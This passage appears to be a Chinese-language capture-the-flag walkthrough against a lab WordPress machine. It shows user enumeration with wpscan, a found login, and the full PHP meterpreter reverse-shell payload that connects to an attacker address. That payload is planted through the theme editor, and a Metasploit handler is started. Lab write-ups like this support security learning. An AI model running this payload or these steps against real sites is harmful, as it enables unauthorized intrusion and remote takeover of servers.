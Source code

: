 ```shell
cmseek -u http://192.168.30.134/wordpress #未找到
wpscan --url http://192.168.30.134/wordpress --enumerate u
```

![image-20221207160750307.png](https://img.ghostliner.top/2YXdUs.png)

获取用户名：victor

[Log In ‹ Focus — WordPress](http://192.168.30.134/wordpress/wp-login.php)登录 victor,follow_the_ippsec。进入后台。

### 1.3. 反弹 shell

查找漏洞，上传文件。

主题编辑器中发现`secret.php`是可以更新的

**创建 shell 代码**

使用 msfvenom，创建反弹连接脚本

```shell
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.30.130 lport=7777 -o shell.php
# lhost 攻击者ip
# lport 攻击者端口
```

shell.php

```php
<?php /**/ error_reporting(0); $ip = '192.168.30.130'; $port = 7777; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

保存到 secret.php 并上传

**开启监听**

使用 msfcosole，设置并开启监听，查找版本漏洞

```
msf6> use exploit/multi/handler
msf6> set payload php/meterpreter/reverse_tcp
msf6> set lhost 192.168.30.130
msf6> set lport 7777
# 开启监听
msf6> exploit
meterpreter>
```
